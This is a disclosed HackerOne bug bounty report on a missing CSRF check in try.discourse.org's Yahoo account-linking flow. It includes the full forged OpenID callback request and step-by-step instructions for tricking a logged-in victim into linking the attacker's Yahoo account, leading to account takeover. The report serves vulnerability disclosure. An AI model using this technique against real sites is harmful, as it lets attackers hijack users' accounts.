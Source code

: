 # Account takeover at https://try.discourse.org due to no CSRF protection in connecting Yahoo account

## Report Details
- **Report ID**: 423022
- **URL**: https://hackerone.com/reports/423022
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-10-12T16:57:57.640Z
- **Disclosed**: 2018-12-06T02:35:56.686Z

## Reporter
- **Username**: avinash_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: discourse

## Vulnerability Information
Hi

There is an option in https://try.discourse.org/u/testh1ay/preferences/account to connect our Yahoo account.

I noticed Connect Yahoo account option have the workflow with GET method and  there is lack of csrf protection on connecting yahoo account which can help attacker into inducing victim to connect attacker's yahoo account to victim's discourse account, and it leads to full account takeover of victim's account.

Vulnerable Request:

GET /auth/yahoo/callback?_method=post&openid.ns=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0&openid.mode=id_res&openid.return_to=https%3A%2F%2Ftry.discourse.org%2Fauth%2Fyahoo%2Fcallback%3F_method%3Dpost&openid.claimed_id=https%3A%2F%2Fme.yahoo.com%2Fa%2F7qAAT.abcd&openid.identity=https%3A%2F%2Fme.yahoo.com%2Fa%2F7qAAT.abcd&openid.realm=https%3A%2F%2Ftry.discourse.org&openid.ns.ax=http%3A%2F%2Fopenid.net%2Fsrv%2Fax%2F1.0&openid.ax.mode=fetch_response&openid.ax.value.email=testhackeroneay%40yahoo.com&openid.ax.value.fullname=test%20hackerone&openid.ax.value.nickname=test&openid.assoc_handle=abcd&openid.response_nonce=2018-10-12T16%3A27%defg-&openid.signed=assoc_handle%2Cclaimed_id%2Cidentity%2Cmode%2Cns%2Cop_endpoint%2Cresponse_nonce%2Creturn_to%2Csigned%2Cax.value.email%2Cax.type.email%2Cax.value.fullname%2Cax.type.fullname%2Cax.value.nickname%2Cax.type.nickname%2Cns.ax%2Cax.mode%2Cpape.auth_level.nist&openid.op_endpoint=https%3A%2F%2Fopen.login.yahooapis.com%2Fopenid%2Fop%2Fauth&openid.ax.type.email=http%3A%2F%2Faxschema.org%2Fcontact%2Femail&openid.ax.type.fullname=http%3A%2F%2Faxschema.org%2FnamePerson&openid.ax.type.nickname=http%3A%2F%2Faxschema.org%2FnamePerson%2Ffriendly&openid.pape.auth_level.nist=0&openid.sig=9p%2Bxyz HTTP/1.1
Host: try.discourse.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Steps to reproduce:

1. Attacker go to https://try.discourse.org/u/user/preferences/account
2. Switch on burp interceptor and click on Yahoo connect.
3. Go to burp interceptor and after forwarding some requests attacker will find the upper mentioned vulnerable request.
4. Copy that and drop the request( here you saved the auth token generated by yahoo).
5. Now feed the copied request to authenticated victim (as a html form or as an url).
6. Victim get the message authentication complete and get redirected to https://try.discourse.org/?authComplete=true.
7. Attacker open his browser and try to login with yahoo.
8. Attacker get redirected to https://try.discourse.org/auth/yahoo/null
9. Attacker open https://try.discourse.org
10. Check Victim's account successfully compromised.

## Impact

Account Takeover.

## Attachments
No attachments
